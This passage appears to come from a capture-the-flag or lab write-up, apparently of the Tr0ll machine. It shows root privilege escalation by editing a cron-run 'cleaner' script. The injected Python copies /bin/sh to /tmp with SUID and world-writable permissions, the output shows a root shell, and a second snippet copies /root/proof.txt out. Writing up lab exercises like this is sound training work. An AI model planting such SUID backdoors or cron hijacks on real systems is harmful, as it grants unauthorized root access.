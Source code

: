 


Ok, now let's finish by getting a shell. We can leverage the cleaner file to copy the shell executable and give it outrageously lax permissions and SUID bit. Note that I'm not saying bash, because the shell being used here is the *sh* shell.

``` plain
$ echo $SHELL
/bin/sh
```

Here is the simple code for copying the shell file to */tmp/* and letting everyone run it with root permissions:

``` python
import os

os.system('cp /bin/sh /tmp/trolled')
os.system('chmod 4777 /tmp/trolled')
```

Now just wait for cron. Check the loot and pwn the troll!

``` plain
$ ls -l /tmp/trolled
-rwsrwxrwx 1 root root 112204 Feb  3 04:50 /tmp/trolled
$ /tmp/trolled
# whoami
root
# ls /root/
proof.txt
# cat /root/proof.txt
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
```

Alternatively, since the original objective was only to read the proof file, you can just use the cleaner file to do it, providing you know the name of the proof file:

``` python
with open('/root/proof.txt', 'r') as proof:
    win = proof.read()
with open('/tmp/proof.txt', 'a') as pwned:
    pwned.write(win)
```

And here it is:

``` plain
$ cat /tmp/proof.txt
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
```
